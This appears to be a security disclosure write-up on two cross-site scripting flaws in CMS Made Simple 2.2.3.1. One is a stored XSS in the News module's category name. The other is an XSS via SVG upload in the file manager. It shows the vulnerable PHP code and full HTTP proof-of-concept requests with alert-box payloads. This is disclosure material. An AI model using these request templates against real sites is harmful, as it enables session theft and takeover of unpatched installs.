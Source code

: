 # CMSMS 2.2.3.1 Multiple Vulnerabilities

One day I felt like reviewing the source code of some random CMS and I picked CMSMS. This is totally random and I did this to kill boredom.

## Stored XSS

In Setting-New module,you can add category,there is no XSS filtering, resulting in storage-type XSS generation. 
file modules/New/action.addcategory.php,line10~line29.  
    ```` 
    
    $name = trim($params['name']);
    //if( $parent == 0 ) $parent = -1;
    $name = trim($params['name']);
    if ($name != '') {
    $query = 'SELECT news_category_id FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ? AND news_category_name = ?';
    $tmp = $db->GetOne($query,array($parent,$name));
    if( $tmp ) {
    echo $this->ShowErrors($this->Lang('error_duplicatename'));
    }
    else {
    $query = 'SELECT max(item_order) FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ?';
    $item_order = (int)$db->GetOne($query,array($parent));
    $item_order++;
    $catid = $db->GenID(CMS_DB_PREFIX."module_news_categories_seq");
    $query = 'INSERT INTO '.CMS_DB_PREFIX.'module_news_categories (news_category_id, news_category_name, parent_id, item_order, create_date, modified_date) VALUES (?,?,?,?,NOW(),NOW())';
    $parms = array($catid,$name,$parent,$item_order);
    $db->Execute($query, $parms);
    ````  
The parameter name insert into the database without filtering。

### POC  
    ````
    POST /admin/moduleinterface.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 143
    Referer: http://127.0.0.1/
    Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
    mact=News%2Cm1_%2Caddcategory%2C0&_sk_=98cf4d97037a4df557b&m1_name=%3Csvg%2F+onload%3Dalert%281%29%3E&m1_parent=-1&m1_submit=%E6%8F%90%E4%BA%A4
    
    ````
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/94376829.jpg)
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/48134010.jpg)
    
## FILE UPLOAD XSS  
In file manager,user can upload any files other than php。If the file ends with html, svg, it can Cause XSS.
file modules/FileManager/action.upload.php,line10~line29.  
    
    protected function is_file_acceptable( $file )
    {
      $config = \cms_config::get_instance();
      if( !$config['developer_mode'] ) {
          $ext = strtolower(substr(strrchr($file, '.'), 1));
          if( startswith($ext,'php') || endswith($ext,'php') ) return FALSE;
      }
      return TRUE;
  }
  
  It only intercepts PHP files.
  
  

### poc
   ```
   POST /admin/moduleinterface.php HTTP/1.1
   Host: 127.0.0.1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
   Accept: application/json, text/javascript, */*; q=0.01
   Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
   X-Requested-With: XMLHttpRequest
   Referer: http://127.0.0.1/
   Content-Length: 865
   Content-Type: multipart/form-data;
   boundary=---------------------------135822859015495
   Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
   Connection: close
   -----------------------------135822859015495
   Content-Disposition: form-data; name="mact"
   FileManager,m1_,upload,0
   -----------------------------135822859015495
   Content-Disposition: form-data; name="_sk_"
   98cf4d97037a4df557b
   -----------------------------135822859015495
   Content-Disposition: form-data; name="disable_buffer"
   1
   -----------------------------135822859015495
   Content-Disposition: form-data; name="m1_files[]"; filename="svg.svg"
   Content-Type: image/png
   <svg id="rectangle"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:xlink="http://www.w3.org/1999/xlink"
   width="100" height="100">
   <foreignObject width="100" height="50"
   requiredExtensions="http://www.w3.org/1999/xhtml">
   <embed xmlns="http://www.w3.org/1999/xhtml" 
   src="javascript:alert('xss')" />
   </foreignObject>
   </svg>
   -----------------------------135822859015495--
   ```

![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/40567149.jpg)

    

